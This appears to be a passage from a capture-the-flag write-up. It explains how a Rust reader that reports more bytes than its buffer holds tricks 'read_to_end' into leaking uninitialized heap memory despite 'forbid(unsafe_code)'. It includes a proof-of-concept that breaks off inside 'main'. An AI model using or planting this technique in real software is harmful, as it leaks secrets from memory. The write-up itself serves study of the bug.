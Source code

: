 We first defined our own "malicious" reader that implements the ``Read`` trait, in the end will read from the heap. it needs a function that takes mutable buffer and will return the length of bytes we read. The malicious Reader will have 2 states: on the first read it will return an arbrtirary number of bytes we would like to read from the heaps, and on the second one it will stop reading. This may appear weird at first but in conjuction with an uninitialized ``Vec`` it is the way to leak our flag :3

Now if we use our reader's ``read_to_end()`` function on the unitnialized vector it will trick the compiler and change the vector's buffer size. It is possible to access the vector after this method by implementing the ``Drop`` trait that will activate whenever it needs to be deallocated (which happens after it is deemed to be read and the malicious modification of it's length), there the access to the heap is ours >:3

Here's a POC for it:

```rust
#![forbid(unsafe_code)]

use std::io::Read;

struct PwnRead {
    first: bool,
}

impl PwnRead {
    pub fn new() -> Self {
        PwnRead { first: false }
    }
}

impl Read for PwnRead {
    fn read(&mut self, _buf: &mut [u8]) -> std::io::Result<usize> {
        if !self.first {
            self.first = true;
            // First state: return more than the buffer size
            Ok(200)
        } else {
            // Second state: we are done >:3
            Ok(0)
        }
    }
}

struct VecHeapWrapper {
    inner: Vec<u8>,
}

impl VecHeapWrapper {
    pub fn new() -> Self {
        VecHeapWrapper { inner: Vec::new() }
    }
}

impl Drop for VecHeapWrapper {
    fn drop(&mut self) {
        // Leak heap !!!!
        // Buffer size has changed to whatever is dictated by the reader
        println!("{:?}", &self.inner);
    }
}

fn main() {
    let mut vec = VecHeapWrapper::new();
    let mut read = PwnRead::new();
    read.read_to_end(&mut vec.inner).unwrap();
```
